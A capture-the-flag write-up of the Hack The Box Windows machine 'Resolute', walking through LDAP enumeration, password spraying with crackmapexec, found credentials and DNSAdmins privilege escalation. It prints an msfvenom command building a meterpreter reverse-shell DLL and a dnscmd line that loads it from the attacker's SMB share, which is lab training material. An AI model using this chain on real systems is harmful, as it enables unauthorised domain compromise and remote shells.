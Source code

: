 # Resolute
Details:
- Resolute IP: 10.10.10.169
- Kali IP: 10.10.14.145
- Difficulty: medium
- Date of writeup: 30 May 2020

Resolute, my first Windows box. It was much harder for me than the average medium difficulty Linux box. Even though I had some knowledge on ldap, smb and active directory, which turned out to be handy, I couldn't finish it without a brief hunt for tips.

Sections:
- [Recon](#recon)
- [Obtaining a Foothold](#obtaining-a-foothold)
- [Lateral Movement](#lateral-movement)
- [Getting to Root](#getting-to-root)
- [Learnings from ippsec walkthrough](#learnings-from-ippsec-walkthrough)

Tools/commands Used
- nmap
- evil-winrm
- crackmapexec
- ldapsearch
- Bloodhound
- msfconsole
- msfvenom

## Recon
So, first things first: recon (```-v``` option shows ports as it founds them, so we can start working on them right away)
```shell
kali$  nmap -v -sC -sV 10.10.10.169
```

![](images/Resolute_2.png?raw=true)

There are many things to try out, given the ports that are open: DNS (53), Kerberos (88), LDAP (289), SMB (445) and so on. I started with LDAP.

## Obtaining a Foothold

```shell
kali$  ldapsearch -h 10.10.10.169 -x -s base namingcontexts
```

With the command above we can extract part of the FQDN (Fully Qualified Domain Name). We want to know the Domain Controller's name, to use it with the ```ldapsearch``` command (we actually also get the Domain name in the nmap run).

```shell
kali$  ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local"
```

This command spits out a bunch of information. I saved it in a file and started going through it. What we would really like to know is if there is any information regarding the users. We know, from an extended nmap scan (```nmap -p- 10.10.10.169```), that port 5985 is open, so we can use ```evil-winrm``` to log in.

Sure enough, after a bit of search, we found out that upon creation, users are given a default password.

![](images/Resolute_3.png?raw=true)

We now need to know whether some of the users forgot to change that password or not. We can do this in two ways:
- Extract the users from the LDAP dump by searching for the field ```sAMAccountName``` and attempt the password for all of them, or
- Look at information in the LDAP dump, fields like ```badPasswordTime```, ```lastLogonTimestamp```, ```pwdLastSet```, etc., and try to make inferences as to which user might have not changed their default password

Since there are only 60-something users in the system and there is no password lockout (see image below), then we can proceed to use ```crackmapexec```

![](images/Resolute_1.png?raw=true)

```shell
kali$  crackmapexec smb 10.10.10.169 -u users.txt -p passwords.txt
```

Sure enough, we get that user ```melanie``` didn't change her default password. We can now establish a connection:

![](images/Resolute_4.png?raw=true)


## Lateral movement

Achieving root was quite difficult in this box. It was quite a challenge and also I feel it was quite a "real-life"-like scenario. I attempted a bunch of things that didn't work out because of several reasons, and I ended up looking for tips in Reddit. The reason why many of the things I tried didn't work was because there seemed to be some security software running, as can be observed in the image below, where I tried to run PowerView.

![](images/Resolute_5.png?raw=true)

I also ran many enumeration scripts and Bloodhound, which turned out to be useful later on. To use it:
- Install [neo4j](https://neo4j.com/docs/operations-manual/current/installation/linux/debian/#debian-install)
- Pull [Sharphound ingestors](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors) from github
- Copy ingestor to the target, run it and obtain the Zip file back in your Kali VM
- Startup neo4j
- Get a [Bloodhound release](https://github.com/BloodHoundAD/BloodHound/releases) to start up the server
- Change chrome-sandbox permissions/owner as needed
- Import the zip file in Bloodhound

![](images/Resolute_10.png?raw=true)

I have to admit that not being very profficient in the use of Bloodhound, at first I was overwhelmed with the amount of information and followed a bunch of rabbit holes. My attempt to run PowerView above was one of those. I'm not goint into details here on how to use Bloodhound, as I'm sure there are many good resources out there to look at.

What I should have seen, however, was that there was another user that could remote into the Domain Controller. This should have been an interesting clue for me.

Anyhow, what I ended up doing was going through the filesystem searching for clues. There was an interesting folder in the C:\ folder:

![](images/Resolute_6.png?raw=true)

Getting the content of that file:

![](images/Resolute_7.png?raw=true)

We have the credentials to user ```ryan```, which is the user that I missed in the Bloodhound analysis.

![](images/Resolute_8.png?raw=true)


## Getting to root

We're still not there yet. This box seems to never end!

User ```ryan``` has a singularity, and it is that it belongs to the group DNSADMINS. I realized that while looking at the Bloodhound analysis, but since then I have not been able to reproduce the same query that I did to find it out. Anyways, any good enumeration script would have told me the same. 

After a bit of browsing around (just look for "DNSAdmin privilege escalation" and there'll be a bunch of results) I knew [what to do](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83). It seems that you can tell the DNS server to load an arbitrary DLL and run it. You can even use an UNC path, which is what I use in the following image

![](images/Resolute_9.png?raw=true)

Explanation:
- First, build a dll which will open a reverse shell to your kali VM:
```shell
kali$  msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.145 LPORT=4444 -f dll > smb_srv/privesc.dll
```
- Open msfconsole and start the handler for the reverse shell
- In the target machine, run the command that will load the dll
```shell
resolute$  dnscmd Resolute.megabank.local /config /serverlevelplugindll \\10.10.14.145\smb_srv\privesc.dll
```
- In the target machine, use ```sc.exe``` to stop/start the DNS server, making it load the DLL

**We have root!**


## Learnings from [ippsec walkthrough](https://www.youtube.com/watch?v=8KJebvmd1Fk)

TODO

